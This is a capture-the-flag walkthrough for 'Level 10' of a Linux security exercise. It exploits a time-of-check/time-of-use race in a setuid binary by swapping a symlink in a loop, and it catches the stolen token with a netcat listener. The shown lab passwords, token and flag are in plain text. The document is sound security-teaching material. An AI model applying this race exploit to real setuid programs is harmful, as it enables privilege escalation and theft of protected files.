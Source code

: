 # Level 10

## Requirements

- None

## Walkthrough

1. Login from the __attacker__'s machine.

	```
	ssh -p 4242 level10@192.168.1.32
	Password: s5cAJpM8ev6XHw998pRWG728z
	```

1. Check files.

	```sh
	> ls -l
	total 16
	-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
	-rw-------  1 flag10 flag10     26 Mar  5  2016 token
	```

1. Oh Sh*t, here we go again.

	```sh
	> ./level10
	./level10 file host
	sends file to host if you have access to it

	> cat token
	cat: token: Permission denied

	> ./level10 token 127.0.0.1
	You don't have access to token

	> FILE=/tmp/exploit10; echo "exploitme" > $FILE && ./level10 $FILE 127.0.0.1
	Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
	```

1. Daily routine, done. We now have few informations. The required listening port seems to be 6969. What about override it ?

	```sh
	> FILE=/tmp/exploit10; echo "exploitme" > $FILE && ./level10 $FILE 127.0.0.1:3000
	Connecting to 127.0.0.1:3000:6969 .. Unable to connect to host 127.0.0.1:3000
	```

1. Ok, strange behaviour here. Let's do a `strings` check.

	```sh
	> strings level10
	...
	socket
	fflush
	exit
	htons
	connect
	puts
	...
	printf
	...
	read
	...
	open
	access
	strerror
	...
	write
	...
	%s file host
		sends file to host if you have access to it
	Connecting to %s:6969 ..
	Unable to connect to host %s
	.*( )*.
	Unable to write banner to host %s
	Connected!
	Sending file ..
	Damn. Unable to open file
	Unable to read from file: %s
	wrote file!
	You don't have access to %s
	...
	```

1. Ok, the port is just hardcoded in the string `Connecting to %s:6969 ..`. Let's setup a quick `netcat` listener.

	```sh
	# -l : Listen ; -k Keep listening after first connection completed
	> nc -lk 6969

	# In another terminal
	> FILE=/tmp/exploit10; echo "exploitme" > $FILE && ./level10 $FILE 127.0.0.1
	Connecting to 127.0.0.1:6969 .. Connected!
	Sending file .. wrote file!
	```

1. Amazing, we have our basic functionnality. Now we need to find a way to pass our `token` file. Maybe like on previous level, using a `symlink` ?

	```sh
	> LINK=/tmp/link10; ln -sf $PWD/token $LINK; ./level10 $LINK 127.0.0.1
	You don't have access to /tmp/link10

	> ls -l $LINK
	lrwxrwxrwx 1 level10 level10 24 Aug 28 14:39 /tmp/link10 -> /home/user/level10/token
	```

1. Sadly, doesn't work. Go back to our `strings` result. Trying to find another vulnerability.

	```
	...
	- `socket` - Create an endpoint for communication
	- `fflush` - Flush a stream
	- `exit` - Cause normal process termination
	- `htons` - Convert values between host and network byte order
	- `connect` - Initiate a connection on a socket
	- `puts` - Output of characters and strings
	...
	- `printf` - @see level08
	...
	- `read` - @see level08
	...
	- `open` - @see level08
	- `access` - Check user's permissions for a file
	- `strerror` -
	...
	- `write` - @see level08
	...
	```

1. Well, the function's definition, our first target here would be `access`. Let's see what the documentation has to say.

	```
	NOTES

	Warning: Using these calls to check if a user is authorized to,
	for example, open a file before actually doing so using open(2)
	creates a security hole, because the user might exploit the short
	time interval between checking and opening the file to manipulate
	it.  For this reason, the use of this system call should be
	avoided.
	...

	access() always dereferences symbolic links.
	...
	```

1. What a lucky day, it's exactly what we are looking for!

	```sh
	# Terminal 1
	> nc -lk 6969

	# Terminal 2
	> while true; do FILE="/tmp/link10"; rm -f $FILE; touch $FILE; rm -f $FILE; ln -sf $PWD/token $FILE; done

	# Terminal 3
	> while true; do FILE="/tmp/link10"; ./level10 $FILE 127.0.0.1 > /dev/null 2>&1; done
	```

1. After few seconds, our `nc` should have printed the `token`.

	```
	...
	.*( )*.
	woupa2yuojeeaaed06riuj63c
	.*( )*.
	...
	```

1. Get the flag.

	```sh
	> su flag10
	Password: woupa2yuojeeaaed06riuj63c
	Don't forget to launch getflag !

	> getflag
	Check flag.Here is your token : feulo4b72j7edeahuete3no7c
	```

## Documentation

- Function: [socket](https://man7.org/linux/man-pages/man2/socket.2.html)
- Function: [fflush](https://man7.org/linux/man-pages/man3/fflush.3.html)
- Function: [exit](https://man7.org/linux/man-pages/man3/exit.3.html)
- Function: [htons](https://man7.org/linux/man-pages/man3/ntohs.3.html)
- Function: [connect](https://man7.org/linux/man-pages/man2/connect.2.html)
- Function: [puts](https://man7.org/linux/man-pages/man3/puts.3.html)
- Function: [access](https://man7.org/linux/man-pages/man2/access.2.html)
- Function: [strerror](https://man7.org/linux/man-pages/man3/strerror.3.html)
- Command: [nc](https://linux.die.net/man/1/nc)
